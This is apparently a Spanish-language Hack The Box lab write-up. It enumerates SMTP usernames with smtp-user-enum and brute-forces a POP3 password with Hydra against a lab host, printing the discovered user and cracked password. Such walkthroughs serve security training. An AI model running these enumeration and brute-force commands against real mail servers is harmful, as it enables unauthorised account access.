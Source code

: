Me descargo los recursos que la academia ofrece (usernames.list).
Ejecuto una enumeración de usernames con:
```
smtp-user-enum -M VRFY -U usernames.list -D inlanefreight.htb -t 10.129.203.12
```

Y encuentro:
```
smtp-user-enum -M RCPT -U usernames.list -D inlanefreight.htb -t 10.129.203.12
Starting smtp-user-enum v1.2 ( http://pentestmonkey.net/tools/smtp-user-enum )

 ----------------------------------------------------------
|                   Scan Information                       |
 ----------------------------------------------------------

Mode ..................... RCPT
Worker Processes ......... 5
Usernames file ........... usernames.list
Target count ............. 1
Username count ........... 79
Target TCP port .......... 25
Query timeout ............ 5 secs
Target domain ............ inlanefreight.htb

######## Scan started at Mon Oct 20 09:43:18 2025 #########
10.129.203.12: marlin@inlanefreight.htb exists
######## Scan completed at Mon Oct 20 09:43:20 2025 #########
1 results.

79 queries in 2 seconds (39.5 queries / sec)

```
Y encuentro la respuesta: marlin

**2. Access the email account using the user credentials that you discovered and submit the flag in the email as your answer.**

Me descargo de los recursos de HTB "passwords.list".

Ejecuto fuerza bruta con Hydra: 
```
hydra -l "marlin@inlanefreight.htb" -P passwords.list -f 10.129.203.12 pop3
```

Y me devuelve como credencial válida: 
```
hydra -l "marlin@inlanefreight.htb" -P passwords.list -f 10.129.203.12 pop3
Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-10-20 10:05:25
[INFO] several providers have implemented cracking protection, check with a small wordlist first - and stay legal!
[DATA] max 16 tasks per 1 server, overall 16 tasks, 333 login tries (l:1/p:333), ~21 tries per task
[DATA] attacking pop3://10.129.49.217:110/
[110][pop3] host: 10.129.49.217   login: marlin@inlanefreight.htb   password: poohbear
[STATUS] attack finished for 10.129.49.217 (valid pair found)
1 of 1 target successfully completed, 1 valid password found

```
Siendo la credencial: "poohbear"
Me conecto a dicho servidor con:
```
telnet $ip 110  

USER marlin@inlanefreight.htb  

```